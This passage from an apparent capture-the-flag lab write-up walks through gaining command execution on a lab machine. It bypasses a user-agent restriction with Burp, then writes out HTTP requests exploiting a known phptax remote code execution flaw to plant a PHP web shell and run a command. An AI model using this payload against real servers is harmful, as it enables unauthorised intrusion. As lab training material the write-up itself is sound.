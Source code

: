 ![writeup.exploitation.steps.2.1](./screenshot07.png)  

3\. The web server is configured to only allow clients with a user-agent string starting with the `Mozilla/4.0` string. We use Burp proxy to make a request to the `8080/tcp` service:  

![writeup.exploitation.steps.3.1](./screenshot08.png)  

4\. Now that we can talk to the `8080/tcp` service, we find a reference to the `/phptax/` web application on this server. We find a remote code execution vulnerability for `phptax` and leverage it to get command execution:  
``` {.python .numberLines}
searchsploit phptax
searchsploit -x 25849
GET /phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E HTTP/1.1
  Host: 192.168.92.185:8080
  User-Agent: Mozilla/4.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
GET /phptax/data/rce.php?cmd=uname%20-a HTTP/1.1
  Host: 192.168.92.185:8080

```
